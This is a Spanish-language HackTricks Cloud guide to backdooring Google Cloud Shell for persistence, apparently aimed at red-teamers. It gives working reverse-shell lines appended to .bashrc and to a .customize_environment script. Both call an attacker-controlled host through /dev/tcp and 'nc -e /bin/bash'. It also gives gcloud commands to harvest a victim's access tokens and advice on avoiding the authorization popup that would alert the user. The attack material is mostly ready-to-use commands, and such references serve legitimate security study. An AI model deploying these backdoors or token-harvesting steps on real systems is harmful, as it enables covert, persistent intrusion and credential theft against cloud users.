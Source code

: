 # GCP - Persistencia de Cloud Shell

<details>

<summary><strong>Aprende hacking en AWS desde cero hasta experto con</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (Experto en Equipos Rojos de AWS de HackTricks)</strong></a><strong>!</strong></summary>

Otras formas de apoyar a HackTricks:

* Si quieres ver tu **empresa anunciada en HackTricks** o **descargar HackTricks en PDF** ¡Consulta los [**PLANES DE SUSCRIPCIÓN**](https://github.com/sponsors/carlospolop)!
* Obtén la [**merchandising oficial de PEASS & HackTricks**](https://peass.creator-spring.com)
* Descubre [**La Familia PEASS**](https://opensea.io/collection/the-peass-family), nuestra colección exclusiva de [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Únete al** 💬 [**grupo de Discord**](https://discord.gg/hRep4RUj7f) o al [**grupo de telegram**](https://t.me/peass) o **síguenos** en **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Comparte tus trucos de hacking enviando PRs a** [**HackTricks**](https://github.com/carlospolop/hacktricks) y [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)
*
*
*
* repositorios de github.

</details>

## Cloud Shell

Para más información consulta:

{% content-ref url="../gcp-services/gcp-cloud-shell-enum.md" %}
[gcp-cloud-shell-enum.md](../gcp-services/gcp-cloud-shell-enum.md)
{% endcontent-ref %}

### Puerta trasera persistente

[**Google Cloud Shell**](https://cloud.google.com/shell/) te proporciona acceso a la línea de comandos a tus recursos en la nube directamente desde tu navegador sin ningún costo asociado.

Puedes acceder al Cloud Shell de Google desde la **consola web** o ejecutando **`gcloud cloud-shell ssh`**.

Esta consola tiene algunas capacidades interesantes para los atacantes:

1. **Cualquier usuario de Google con acceso a Google Cloud** tiene acceso a una instancia de Cloud Shell completamente autenticada (las Cuentas de Servicio pueden, incluso siendo Propietarios de la organización).
2. Dicha instancia **mantendrá su directorio de inicio durante al menos 120 días** si no hay actividad.
3. No hay **capacidades para que una organización supervise** la actividad de esa instancia.

Básicamente esto significa que un atacante puede colocar una puerta trasera en el directorio de inicio del usuario y siempre que el usuario se conecte al GC Shell cada 120 días al menos, la puerta trasera sobrevivirá y el atacante obtendrá una shell cada vez que se ejecute simplemente haciendo:

{% code overflow="wrap" %}
```bash
echo '(nohup /usr/bin/env -i /bin/bash 2>/dev/null -norc -noprofile >& /dev/tcp/'$CCSERVER'/443 0>&1 &)' >> $HOME/.bashrc
```
{% endcode %}

Hay otro archivo en la carpeta de inicio llamado **`.customize_environment`** que, si existe, se va a **ejecutar cada vez** que el usuario acceda a la **nube shell** (como en la técnica anterior). Simplemente inserta la puerta trasera anterior o una similar para mantener la persistencia siempre que el usuario use "frecuentemente" la nube shell:
```bash
#!/bin/sh
apt-get install netcat -y
nc <LISTENER-ADDR> 443 -e /bin/bash
```
{% hint style="warning" %}
Es importante tener en cuenta que la **primera vez que se realiza una acción que requiere autenticación**, aparece una ventana emergente de autorización en el navegador del usuario. Esta ventana debe ser aceptada antes de que el comando pueda ejecutarse. Si aparece una ventana emergente inesperada, podría levantar sospechas y comprometer potencialmente el método de persistencia que se está utilizando.
{% endhint %}

Esta es la ventana emergente al ejecutar `gcloud projects list` desde la terminal en la nube (como atacante) vista en la sesión del usuario del navegador:

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Sin embargo, si el usuario ha utilizado activamente la terminal en la nube, la ventana emergente no aparecerá y puedes **recopilar tokens del usuario con**:
```bash
gcloud auth print-access-token
gcloud auth application-default print-access-token
```
#### Cómo se establece la conexión SSH

Básicamente, se utilizan estas 3 llamadas a la API:

* [https://content-cloudshell.googleapis.com/v1/users/me/environments/default:addPublicKey](https://content-cloudshell.googleapis.com/v1/users/me/environments/default:addPublicKey) \[POST] (te hará agregar tu clave pública que creaste localmente)
* [https://content-cloudshell.googleapis.com/v1/users/me/environments/default:start](https://content-cloudshell.googleapis.com/v1/users/me/environments/default:start) \[POST] (te hará iniciar la instancia)
* [https://content-cloudshell.googleapis.com/v1/users/me/environments/default](https://content-cloudshell.googleapis.com/v1/users/me/environments/default) \[GET] (te dirá la dirección IP de la nube de Google)

Pero puedes encontrar más información en [https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key](https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key)

## Referencias

* [https://89berner.medium.com/persistant-gcp-backdoors-with-googles-cloud-shell-2f75c83096ec](https://89berner.medium.com/persistant-gcp-backdoors-with-googles-cloud-shell-2f75c83096ec)
* [https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key](https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key)
* [https://securityintelligence.com/posts/attacker-achieve-persistence-google-cloud-platform-cloud-shell/](https://securityintelligence.com/posts/attacker-achieve-persistence-google-cloud-platform-cloud-shell/)

<details>

<summary><strong>Aprende hacking en AWS desde cero hasta experto con</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Otras formas de apoyar a HackTricks:

* Si deseas ver tu **empresa anunciada en HackTricks** o **descargar HackTricks en PDF** ¡Consulta los [**PLANES DE SUSCRIPCIÓN**](https://github.com/sponsors/carlospolop)!
* Obtén el [**oficial PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Descubre [**The PEASS Family**](https://opensea.io/collection/the-peass-family), nuestra colección exclusiva de [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Únete al** 💬 [**grupo de Discord**](https://discord.gg/hRep4RUj7f) o al [**grupo de telegram**](https://t.me/peass) o **síguenos** en **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Comparte tus trucos de hacking enviando PRs a** [**HackTricks**](https://github.com/carlospolop/hacktricks) y [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)
*
*
* repositorios de GitHub.

</details>
